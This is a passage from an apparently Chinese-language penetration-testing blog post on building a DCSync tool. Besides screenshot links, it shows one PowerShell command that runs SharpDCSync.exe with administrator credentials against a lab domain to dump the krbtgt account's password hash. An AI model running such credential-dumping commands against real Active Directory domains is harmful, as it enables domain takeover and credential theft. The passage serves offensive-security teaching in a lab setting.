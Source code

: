 ![image-20221207011242152](/assets/posts/2023-01-6-how-to-implement-a-dcsync-by-yourself/image-20221207011242152.png)

执行以下命令，转储域内指定用户的哈希凭据，如下图所示。

```powershell
SharpDCSync.exe -d pentest.com -u Administrator -p Admin@123 -t krbtgt
```

![image-20221207011339409](/assets/posts/2023-01-6-how-to-implement-a-dcsync-by-yourself/image-20221207011339409.png)
